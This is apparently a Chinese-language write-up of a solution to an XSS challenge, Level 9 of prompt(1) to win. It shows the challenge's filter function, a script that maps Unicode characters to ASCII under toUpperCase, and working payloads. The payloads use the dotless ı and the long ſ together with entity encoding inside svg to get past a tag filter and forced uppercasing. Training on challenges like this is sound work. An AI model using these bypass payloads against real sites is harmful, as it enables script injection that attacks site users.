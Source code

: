 ## [[prompt(1) to win](http://prompt.ml)] [[Level 9 – ECMAScript](http://prompt.ml/9)] [[解题报告](http://exp-blog.com/2019/03/24/pid-3691/)]

------

## 题目

```javascript
function escape(input) {
    // filter potential start-tags
    input = input.replace(/<([a-zA-Z])/g, '<_$1');
    // use all-caps for heading
    input = input.toUpperCase();

    // sample input: you shall not pass! => YOU SHALL NOT PASS!
    return '<h1>' + input + '</h1>';
}
```

## 解题报告

### 利用 toUpperCase

这题用正则 `<([a-zA-Z])` 把所有正常标签都过滤成了 `<_` ，而我们的输入内容都在 `<h1>` 标签里面，导致常规可以注入 JS 的标签基本都失效。

不过注意到题目会把我们输入的内容使用 `toUpperCase` 方法全部转换成大写。

一般情况下这个方法只对 ASCII 小写字母起作用，但是根据 [ECAMScript 定义](http://ecma-international.org/ecma-262/5.1/#sec-15.5.4.18)，这个方法对部分 Unicode 字符也会起作用，即它有意把某些 Unicode 字符映射到某些 ASCII 字符（串）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2009%20%E2%80%93%20ECMAScript/imgs/01.png)

但是我们不清楚这个具体的映射表是什么，是否可利用。

于是我简单写了这个 JS 代码，拷贝到浏览器的控制台运行，即可把 Unicode 通过 `toUpperCase` 方法映射到 ASCII 的映射表打印出来（*此代码只打印了 XSS 可能会用到的 ASCII 字符，并未把全部字符列印*）：

```javascript
UNICODE_RANGE = 65000;
XSS_ASCII_RANGE = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ\"/?><';:.,|\\+=-_*&^%$#@!~`\r\n"
for (i = 0; i < UNICODE_RANGE; i++) {
    raw_ch = String.fromCharCode(i)
    low_ch = "";
    upp_ch = "";

    if (XSS_ASCII_RANGE.includes(raw_ch.toLowerCase())) {
        low_ch = raw_ch.toLowerCase();
    }

    if (XSS_ASCII_RANGE.includes(raw_ch.toUpperCase())) {
        upp_ch = raw_ch.toUpperCase();
    }

    if ((low_ch != "" || upp_ch != "") && !(XSS_ASCII_RANGE.includes(raw_ch))) {
        console.log(
            "Unicode-Idx: [" + i + "], " + 
            "Raw-Unicode: [" + raw_ch + "], " + 
            "Unicode-Hex: [\\u" + (i).toString(16) + "], " + 
            "To-LowerCase-ASCII: [" + low_ch + "], " + 
            "To-UpperCase-ASCII: [" + upp_ch + "]");
    }
}
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2009%20%E2%80%93%20ECMAScript/imgs/02.png)

用运行结果来看，有两个字符的映射是明显对我们有用的：

- Unicode 的 `ı` 通过 `toUpperCase` 会被转换成 ASCII 的 `I`
- Unicode 的 `ſ` 通过 `toUpperCase` 会被转换成 ASCII 的 `S`

> 可以映射到 `ST` 的两个字符 `ﬅ` 或 `ﬆ` 也是可以利用的，只是相对没那么方便。

换言之，只要我们输入 `<ı` 或 `<ſ` ，即可绕过题目对标签名的正则过滤，而题目的 `toUpperCase` 方法又会帮我们将他们转换成 `<I` 或 `<S` 。

由于 HTML 的标签名和属性名都是大小写不敏感的，因此我们就可以利用这个特点，注入以 `I` 或 `S` 开头的标签。

由此首先想到可以的标签就有 3 个 ： `<IMG>` 、`<SCRIPT>` 、`<SVG>`

------------


### 绕过 toUpperCase

于是尝试注入 payload `<ımg src=0 onerror=prompt(1) />`

虽然成功注入为 `<IMG SRC=0 ONERROR=PROMPT(1) />` ，但是在触发 `onerror` 事件时报错：

`Uncaught ReferenceError: PROMPT is not defined`

原因是 JS 对函数名是大小写敏感的，而 `prompt` 也被转换成了大写。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2009%20%E2%80%93%20ECMAScript/imgs/03.png)

此时我想到可以利用 `<svg>` **运行时才解析实体编码**的特性，对大写转换进行绕过。

即先把 `prompt` 编码成 `&#112;&#114;&#111;&#109;&#112;&#116;` ，这样实体编码在输出到前端之前， `toUpperCase` 对它就不起作用了。

然后再使用 `<svg>` 标签包围实体编码，实体编码就能在输出到前端后、在运行时被解析还原成 `prompt` 。

于是把 payload 修改成这样，完成挑战：

`<ſvg><ımg src=0 onerror=&#112;&#114;&#111;&#109;&#112;&#116;(1) /></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2009%20%E2%80%93%20ECMAScript/imgs/04.png)

这个 payload 也是可以完成挑战的，相对简单点：

`<ſvg><ſcript>&#112;&#114;&#111;&#109;&#112;&#116;(1)</script></svg>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2009%20%E2%80%93%20ECMAScript/imgs/05.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
